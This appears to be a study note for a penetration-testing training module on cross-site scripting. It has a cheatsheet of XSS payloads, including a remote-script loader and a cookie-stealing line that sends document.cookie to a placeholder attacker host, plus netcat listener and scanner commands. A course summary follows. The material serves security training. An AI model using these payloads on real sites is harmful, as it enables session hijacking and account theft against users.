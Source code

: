 # Cross-Site Scripting (XSS)

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[ ]]

![[logo_cross_site_scripting_xss.png]]

Cross-Site Scripting (XSS) vulnerabilities are among the most common web application vulnerabilities. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. This module will teach you how to identify XSS vulnerabilities and exploit them.

### Cheatsheet

#### Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |

### Module Summary

Web Application Penetration Testing is a vital part of any penetration test. It plays an essential role in identifying critical vulnerabilities that may lead to the organization's assets being compromised. Cross-Site Scripting (XSS) vulnerabilities are among the most common vulnerabilities in any web application, with studies indicating that over 80% of all web applications are vulnerable to it. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser, leading to various types of attacks, including compromising web admins and their web applications.

While many organizations choose to ignore XSS vulnerabilities, as it only affects end-users without having a direct ability to execute code on the back-end server, in this module, we will discuss why XSS should be taken seriously. We will discuss the three types of XSS vulnerabilities, how to identify them, and how to exploit them.

In addition to this, the `Cross-Site Scripting (XSS)` module will teach you the following:

-   What is an XSS vulnerability?
-   History of XSS attacks in real-life
-   What are `Stored XSS`, `Reflected XSS`, and `DOM-based XSS` vulnerabilities
-   Techniques to identify XSS vulnerabilities
-   Performing `Defacing` attacks to change the look of a website
-   Performing `Phishing` attacks to steal the victim's login details and to perform a phishing simulation exercise
-   Performing `Session Hijacking` attacks to obtain the victim's session cookie and use them to access their account
-   Front-end and Back-end steps to prevent XSS vulnerabilities and protect your web application against them

* * * * *

This module is broken into sections with accompanying hands-on exercises to practice each of the tactics and techniques we cover. The module ends with a practical hands-on skills assessment to gauge your understanding of the various topic areas.

You can start and stop the module at any time and pick up where you left off. There is no time limit or "grading," but you must complete all of the exercises and the skills assessment to receive the maximum number of cubes and have this module marked as complete in any paths you have chosen.

As you work through the module, you will see example commands and command output for the various topics introduced. It is worth reproducing as many of these examples as possible to reinforce further the concepts presented in each section. You can do this in the `PwnBox` provided in the interactive sections or your virtual machine.

* * * * *

The module is classified as "`Easy`" and assumes a working knowledge of the Linux command line and an understanding of information security fundamentals. The module also assumes a basic understanding of web applications and web requests and will build on this understanding to teach how XSS vulnerabilities and attacks work.

In addition to the above, a firm grasp of the following modules can be considered as prerequisites for the successful completion of this module:

-   Learning Process
-   Web Requests
-   Intro to Web Applications